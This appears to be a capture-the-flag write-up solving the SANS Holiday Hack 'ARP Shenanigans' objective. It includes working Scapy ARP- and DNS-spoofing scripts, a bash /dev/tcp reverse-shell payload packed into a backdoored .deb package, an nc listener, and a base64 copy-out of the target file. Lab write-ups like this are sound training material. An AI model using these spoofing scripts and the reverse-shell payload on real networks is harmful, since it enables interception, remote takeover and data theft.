






# ARP Shenanigans

## Objective

> Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using `ARP`. Retrieve the document at `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`. Who recused herself from the vote described on the document?

`Difficulty: 4/5`

## Alabaster Snowball's dialog:
> Those skills might be useful to you later on!<br>
> I've been trying those skills out myself on this other terminal.<br>
> I'm pretty sure I can use tcpdump to sniff some packets.<br>
> Then I'm going to try a machine-in-the-middle attack.<br>
> Next, I'll spoof a `DNS` response to point the host to my terminal.<br>
> Then I want to respond to its `HTTP` request with something I'll cook up.<br>
> I'm almost there, but I can't quite get it. I could use some help!<br>

> Oh, I see the Scapy Present Packet Prepper has already been completed!<br>
> Now you can help me get access to this machine.<br>
> It seems that some interloper here at the North Pole has taken control of the host.<br>
> We need to regain access to some important documents associated with Kringle Castle.<br>
> Maybe we should try a machine-in-the-middle attack?<br>
> That could give us access to manipulate `DNS` responses.<br>
> But we'll still need to cook up something to change the `HTTP` response.<br>
> I'm sure glad you're here Santa.<br>


## Hints
> Jack Frost must have gotten malware on our host at `10.6.6.35` because we can no longer access it. Try sniffing the `eth0` interface using `tcpdump -nni eth0` to see if you can view any traffic from that host.<br>
> The host is performing an `ARP` request. Perhaps we could do a spoof to perform a machine-in-the-middle attack. I think we have some sample scapy traffic scripts that could help you in `/home/guest/scripts`.<br>
> Hmmm, looks like the host does a `DNS` request after you successfully do an `ARP` spoof. Let's return a `DNS` response resolving the request to our `IP`.<br>
> The malware on the host does an `HTTP` request for a `.deb` package. Maybe we can get command line access by sending it a [command in a customized .deb file](http://www.wannescolman.be/?p=98)<br>

## Solution

!!! note
    Complete the terminal **Scapy Prepper** for hints on how to solve this objective.

From the hints, we find out a host on the Castle's network has been compromised. We also learn
that there will be a multi-step process to gain access to the host:

- Respond to the ARP request from the compromised host.
- Respond to the DNS request from the compromised host.
- Provide a package file to the compromised host with a backdoor script.
- Gain shell access to the host and retrieve the document.

### ARP response

The compromised host is requesting the MAC address of `10.6.6.53`. We have a template scapy
script in `scripts/arp_resp.py`, but some of the fields in the response need to be filled out:

```python
ether_resp = Ether(dst="SOMEMACHERE", type=0x806, src="SOMEMACHERE")

arp_response = ARP(pdst="SOMEMACHERE")
arp_response.op = 99999
arp_response.plen = 99999
arp_response.hwlen = 99999
arp_response.ptype = 99999
arp_response.hwtype = 99999

arp_response.hwsrc = "SOMEVALUEHERE"
arp_response.psrc = "SOMEVALUEHERE"
arp_response.hwdst = "SOMEVALUEHERE"
arp_response.pdst = "SOMEVALUEHERE"
```

We need to respond to the ARP request and tell the compromised host to direct any subsequent
traffic to us. Using this [guide to ARP packets](https://www.practicalnetworking.net/series/arp/traditional-arp/), we can fill in the appropriate sections in the response packets:

```python
ether_resp = Ether(dst=packet[Ether].src, type=0x806, src=macaddr)

arp_response = ARP(pdst=packet[ARP].psrc)
arp_response.op = "is-at"
arp_response.plen = packet[ARP].plen
arp_response.hwlen = packet[ARP].hwlen
arp_response.ptype = packet[ARP].ptype
arp_response.hwtype = packet[ARP].hwtype

arp_response.hwsrc = macaddr
arp_response.psrc = packet[ARP].pdst
arp_response.hwdst = packet[Ether].src
arp_response.pdst = packet[ARP].psrc
```

And we were successful:



We can see the next piece of data we need to spoof: a DNS lookup for `ftp.osuosl.org`. There's
a sample script in `scripts/dns_resp.py`, with some sections we need to change:

```python
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.1.10"

def handle_dns_request(packet):
    # Need to change mac addresses, Ip Addresses, and ports below.
    # We also need
    eth = Ether(src="00:00:00:00:00:00", dst="00:00:00:00:00:00")   # need to replace mac addresses
    ip  = IP(dst="0.0.0.0", src="0.0.0.0")                          # need to replace IP addresses
    udp = UDP(dport=99999, sport=99999)                             # need to replace ports
    dns = DNS(
        # MISSING DNS RESPONSE LAYER VALUES
    )
```

DNS packets are complex to create, and can be
tricky to get right. A couple of helpful guides are at
[here](https://www2.cs.duke.edu/courses/fall16/compsci356/DNS/DNS-primer.pdf) and
[here](http://lost-and-found-narihiro.blogspot.com/2015/02/python-scapy-send-fake-dns-responses.html). With much trial and error, we can build a response packet with the following code:

```python
# destination ip we arp spoofed
ipaddr_we_arp_spoofed = "10.6.6.53"

def handle_dns_request(packet):
    # Need to change mac addresses, Ip Addresses, and ports below.
    # We also need
    eth = Ether(src=packet[Ether].dst, dst=packet[Ether].src)
    ip  = IP(dst=packet[IP].src, src=packet[IP].dst)
    udp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport)
    dns = DNS(
            id=packet[DNS].id,
            qr=1, ra=1, rd=1, opcode="QUERY", rcode="ok", qdcount=1, ancount=1, qd=packet[DNS].qd,
            an=DNSRR(rrname=packet[DNS].qd.qname, type='A', rclass='IN', ttl=82159, rdata=ipaddr),
    )
```

A small shell script helps manage starting the spoof scripts. The DNS spoof script is started first,
to be ready when the ARP spoof fires:

```bash
#!/bin/sh

python3 dns_resp.py &
python3 arp_resp.py &
```

We can see the ARP request & response, then the DNS query and response:



Now we see a new request from the compromised host: an attempted HTTP request, which
failed as there was no web server listening on port `80`:



We can start one with `python3 -m http.server 80`, run our shell script again, and
look at the web server output to see what the compromised host is requesting:



The compromised host is requesting a Debian package
`/pub/jfrost/backdoor/suriv_amd64.deb`.  We can create a package with a backdoor in it,
serve it up with the correct path, and receive a remote shell when the compromised host
installs the package. There are a number of Debian packages in the `debs` directory
in the terminal, but I found it easier to use a tool to create an empty package
with just a reverse shell backdoor instead of modifying one of the provided ones.
The tool I used is [Derbie](https://github.com/mthbernardes/Derbie). After cloning
the GitHub repository on your local machine and installing the dependencies, create
a smiple reverse shell payload script:

```bash
#!/bin/bash

0<&196;exec 196<>/dev/tcp/10.6.0.3/10444; sh <&196 >&196 2>&196
```

Replace `10.6.0.3` with the IP address of the host in your terminal.

Next, generate the package with `python3 Derbie.py suriv payload.sh`:


We now need to get the package from our local machine into the **`ARP Spoof`**
terminal. As the terminal can't reach outside it's network, the best method
of transferring the package is copy/paste. On the local machine run `base64
debs/suriv_43_all.deb`, copy the base64-encoded text, and in the terminal run `base64
-d > suriv_amd64.deb`, then paste the text.

For the `HTTP GET` request to work, we need to make sure we have the correct path set up.
Run `mkdir -p pub/jfrost/backdoor/`, move the package file to that directory, then re-start
the Python HTTP server. Finally, add a listener to the shell script:

```bash
#!/bin/sh

python3 dns_resp.py &
python3 arp_resp.py &
nc -vnlp 10444
```

Run the script, and wait for the reverse shell from the compromised host. Once we see
the `connect to ...` message from `nc`, we know the reverse shell was successful:



We can use the same copy/paste method to transfer the `/NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt` file out of the terminal and to our local machine:



And do the reverse on our local machine: `base64 -d | gunzip >
NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`. Reading the relatively mundane meeting
minutes from the North Pole Land Use board, we see that **`Tanta Kringle`** recused
herself from voting on the Kringle Castle expansion plans.

## Answer
`Tanta Kringle`
